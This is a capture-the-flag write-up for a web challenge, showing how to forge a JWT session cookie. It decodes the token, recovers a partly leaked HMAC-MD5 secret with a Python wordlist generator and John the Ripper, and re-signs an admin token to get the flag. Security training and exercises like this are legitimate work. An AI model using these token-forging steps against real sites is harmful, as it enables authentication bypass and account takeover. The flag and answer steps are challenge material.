 >Author: @congon4tor#2334  
>  
>Enjoy some of our delicious home made marmalade!
------------------------
We are prompted to choose a username to log in. No password asked. Firstly trying admin, of course we are not allowed. So I go with my old friend `asdf`.


![[Pasted image 20230615153302.png]]
On login, it tells us that only admin can see the flag:

![[Pasted image 20230616173145.png]]

With how little content is on these pages, there is pretty much nothing else to consider other than editing the given cookie:
`token=eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg`
Based on the cookie having 3 sections separated by dots, I immediately recognize this as a JWT. Using jwt.io to decode:

![[Pasted image 20230616173339.png]]

The blue segment is a signature hashed with a secret key to prevent forgery, but this is not always used to verify. Perhaps we can just edit the Payload section so that our username is admin?
```
{
  "username": "admin"
}
```
Converting back to base64, our new token looks like this
`eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.SKkdg9_2EbXj67FcZNnXIg`

When I edit the cookie, it gives me an interesting new error:

![[Pasted image 20230616173646.png]]

```
# Bad Request

Invalid signature, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```

So while they are checking the token signatures, they did a bit of an oopsie and gave away most of their secret key!! Only the last 5 characters are hidden, making this secret key effectively 5 characters in length. This is something that can be brute-forced rather easily.

I used python to quickly generate a wordlist containing the known secret string, then appended all possible 5 letter combinations:
```python
fp = open("wordlist.txt", "w")

for i in range(ord('a'), ord('z') + 1):
    for j in range(ord('a'), ord('z') + 1):
        for k in range(ord('a'), ord('z') + 1):
            for l in range(ord('a'), ord('z') + 1):
                for m in range(ord('a'), ord('z') + 1):
                    fp.write('fsrwjcfszeg' + chr(i) + chr(j) + chr(k) + chr(l) + chr(m) +  "\n");

fp.close()
```

From this point, I can use my previously valid JWT for asdf, and use `John the Ripper` to brute force the secret key. John will accept the token when the signature is presented in hex, however I had trouble converting myself for some reason. This issue was resolved once I used [Sjord's jwtcrack code](https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py) to recreate my token.

```shell
$ python convert.py 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg'
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ#48a91d83dff611b5e3ebb15c64d9d722
```

Cracking the secret with john:

```shell
$ john jwt.txt --wordlist=wordlist.txt --format=HMAC-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-MD5 [password is key, MD5 256/256 AVX2 8x3])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fsrwjcfszegvsyfa (?)     
1g 0:00:00:04 DONE (2023-06-16 13:39) 0.2487g/s 2472Kp/s 2472Kc/s 2472KC/s fsrwjcfszegvsxlg..fsrwjcfszegvtppv
Use the "--show --format=HMAC-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

The secret key is `fsrwjcfszegvsyfa`
Now to generate a valid signature for our forged jwt. Using the first 2 base64 encoded segments, we perform HMAC-MD5 hashing, then convert from hex back to base64:

![[Pasted image 20230616174953.png]]

Finalized token:
```
eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.kpCxx3dVioNEfybFE2UBxg
```

Upon refreshing the page, we get the flag.
![[Pasted image 20230616141001.png]]

`flag{a249dff54655158c25ddd3584e295c3b}`
